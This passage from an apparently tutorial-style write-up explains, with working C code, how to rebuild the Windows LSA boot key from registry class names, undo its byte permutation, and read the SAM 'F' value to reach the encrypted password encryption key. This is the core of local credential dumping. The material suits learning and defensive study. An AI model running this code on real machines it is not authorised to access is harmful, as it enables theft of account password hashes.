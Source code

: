 ```c
		byteConv[1] = classname[i + 1];
		convclassname[i/2] = (unsigned char)wcstoul(byteConv, NULL, 16);
	}

	RegCloseKey(key);

	//Append the current class name to the full system key
	for (DWORD i = 0; i < cnamelen/2; i++)
		syskey[i + index] = convclassname[i];

	index = index + (cnamelen/2);
	cnamelen = 256;
}
```

With the encrypted system key reconstructed into a 16 byte array, we can deobfuscate it. There is a fixed permutation of the byte order that is applied to it, so by reversing it we can recover the final key. 
```c
//Byte order permutation to deobsfucate the system key after all 4 parts are attached
char permutation[] = { 8, 5, 4, 2, 11, 9, 13, 3, 0, 6, 1, 12, 14, 10, 15, 7 };

//Apply the permutation
for (int i = 0; i < 16; i++)
	bootkey.key[i] = syskey[permutation[i]];

return bootkey;
```

***
**Part II: Decrypting the LSA System Key**

Now that we have the deobfuscated LSA system key (aka system key, boot key), we can use it as a key to decrypt the password encryption key. The password encryption key is stored in the SAM hive key `HKLM:\SAM\SAM\Domains\Account` key, within the `F` field. So we will query all of the `F` field data and store it in a buffer.

```c
//Variables to handle the registry query
HKEY key;
unsigned char f[1024];
int len = 1024;
LSTATUS status;

//Open and read the F value
status = RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SAM\\SAM\\Domains\\Account", 0, KEY_READ, &key);
status = RegQueryValueExW(key, L"F", NULL, NULL, f, &len);
RegCloseKey(key);
```

The encrypted password encryption key (PEK) is stored at the fixed location `0x68`. The first 4 bytes are a 32 bit integer that represents whether AES-128 or RC4 was used to encrypt it. The next 4 bytes are a 32 bit integer that is the length of the encrypted PEK. We'll get these values from the `F` and convert them with our own ToInt32 function. 
